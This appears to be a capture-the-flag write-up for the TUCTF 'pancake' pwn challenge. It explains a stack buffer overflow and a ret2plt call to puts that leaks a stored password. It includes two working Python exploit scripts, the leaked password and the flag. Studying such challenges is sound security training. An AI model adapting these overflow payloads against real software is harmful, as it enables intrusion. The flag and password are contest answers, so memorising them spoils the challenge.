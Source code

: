 > You ever just get a craving for pancakes?

Solved by Vanilla

This binary has a “printFlag” function, which first prompts the user to enter a password from a different file before allowing access to the flag.  It has a stack-based buffer overflow too, like so many of the other challenges (c’mon, guys, there’s more to pwn than just SBBO!)  NX is on, PIE is off.  When it reads the “known-good” password, it stores that to a static buffer.  So the easiest way to win at this one is to ret2libc (we don’t have the libc address, but all we need is puts, which is in the PLT, so we only need the executable address which is static, not libc’s address) to puts, passing it the known buffer address as an argument.  That prints the password.  Then you just give it the password and it’ll give you the flag.

To get the password:

#!/usr/bin/env python3
import struct
import vanillib

PUTS_ADDR = 0x8049060
PASSWORD_ADDR = 0x804C060


def exploit(iface):
    iface.expect(b"Enter pancake password\n> ")
    iface.write(b"x" * 0x2C + struct.pack('<III', PUTS_ADDR, 0, PASSWORD_ADDR))
    iface.expect(b"Try harder\n")
    print(iface.read_some())


main = vanillib.stub_main(exploit)

if __name__ == "__main__":
    main()

Resulting password is l0r3m_1p5um_d0l0r_517_4m37

To get the flag:
#!/usr/bin/env python3
import struct
import vanillib

PUTS_ADDR = 0x8049060
PASSWORD_ADDR = 0x804C060


def exploit(iface):
    iface.expect(b"Enter pancake password\n> ")
    iface.write(open("password.txt", "rb").read().ljust(0x40, b"\0"))
    print(iface.read_some())


main = vanillib.stub_main(exploit)

if __name__ == "__main__":
    main()

Flag: TUCTF{p4nc4k35_4r3_4b50lu73ly_d3l1c10u5_4nd_y0u_5h0uld_637_50m3_4f73r_7h15}

